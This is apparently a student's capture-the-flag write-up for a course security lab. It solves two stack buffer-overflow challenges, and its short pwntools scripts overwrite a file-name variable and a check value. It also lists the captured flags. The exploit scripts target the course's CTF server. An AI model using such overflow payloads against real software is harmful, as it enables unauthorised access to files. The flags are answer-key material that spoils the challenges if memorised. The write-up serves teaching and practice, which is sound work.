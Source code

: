 # Trabalho Realizado na Semana 4

## CTF

### Desafio 1

After some time exploring the source code, we found some important information about this executable:

```
- The file mem.txt is opened, read and printed.
- The only way to change which file is read is by overiding the meme_file variable through the scanf function call.
- The scanf function reads 28 bytes to the buffer variable, which has only 20 bytes of space. The other 8 bytes and the ones corresponding to the meme_file variable.
```

We used the scanf function to make a buffer-overflow attack. The following python code was used to get the flag:

```py
#!/usr/bin/python3
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"a" * 20 + b"flag.txt") # Send 20 "trash" bytes and then the value of the file we want to open
r.interactive()
```

Flag:
```
flag{c71a568e127be762a634e6f647175766}
```

### Desafio 2

This challenge had some differences when comparing to the first one:

```
- It has an extra variable val with size equal to 4 bytes
- There is an extra comparison to the val value, before opening the file
- It it aldo vulnerable to buffer overflow attack
```

This attack, even though it is different from the first one, it made in the same way since the `scanf` function scans for the extra 4 bytes of the `val` variable. That said, we just need to overide the `val` and the `meme_file` variables, the first one with `0xfefc2122` and the second with `flag.txt`. Since the variables are written in the stack bottom-up, the bytes of the `val` variable must be set in the reverse order. Using the following python script we can perform this attack and get the flag:

```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4000)
r.recvuntil(b":")
r.sendline(b"a" * 20 + b"\x22\x21\xfc\xfe" + b"flag.txt")
r.interactive()
```

Flag:
```
flag{1839859d5fe634c8e2af84c8321f6f54}
```

---

